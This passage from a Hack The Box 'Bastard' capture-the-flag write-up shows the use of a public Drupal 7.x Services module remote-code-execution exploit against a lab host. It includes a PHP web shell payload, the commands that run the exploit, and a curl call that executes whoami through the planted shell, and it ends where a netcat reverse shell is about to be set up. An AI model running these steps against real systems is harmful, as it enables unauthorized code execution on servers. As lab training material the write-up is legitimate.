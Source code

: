 Lots of options but 41564 is the same as the one I already found above so try that:

```text
root@kali:~/htb/bastard# searchsploit -m exploits/php/webapps/41564.php
  Exploit: Drupal 7.x Module Services - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/41564
     Path: /usr/share/exploitdb/exploits/php/webapps/41564.php
File Type: ASCII text, with CRLF line terminators
Copied to: /root/htb/bastard/41564.php
```

Need to install php-curl before script will work:

```text
root@kali:~/htb/bastard# apt-get install php-curl
```

Now need to edit script before running:

```text
root@kali:~/htb/bastard# cat 41564.php
<SNIP>
curl = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
<SNIP>
```

Above are the sections to change. Now run exploit and test it worked:

```text
root@kali:~/htb/bastard# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce
#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/test.php

root@kali:~/htb/bastard# curl http://10.10.10.9/test.php?cmd=whoami
nt authority\iusr
```

## Initial Shell

So I have iusr accessible via exploit, now connect it to a reverse shell with 64bit netcat for Windows:

